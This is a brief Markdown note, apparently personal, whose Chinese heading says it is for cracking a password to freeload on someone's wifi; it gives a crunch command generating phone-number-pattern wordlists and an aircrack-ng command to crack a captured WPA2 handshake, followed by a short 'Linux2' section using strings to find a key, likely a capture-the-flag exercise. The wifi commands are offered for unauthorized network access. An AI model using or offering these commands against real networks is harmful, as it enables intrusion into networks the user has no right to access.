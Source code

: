 # 想蹭网现解开密码
`crunch 11 11 -t 1391040%%%% -o  pass.txt`
`aircrack-ng  -a2  wifi.cap  -w  password.txt`
# Linux2
`strings brave`
find KEY
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTI3NDM1ODk0NCwxMTg2NDQ4ODExXX0=
-->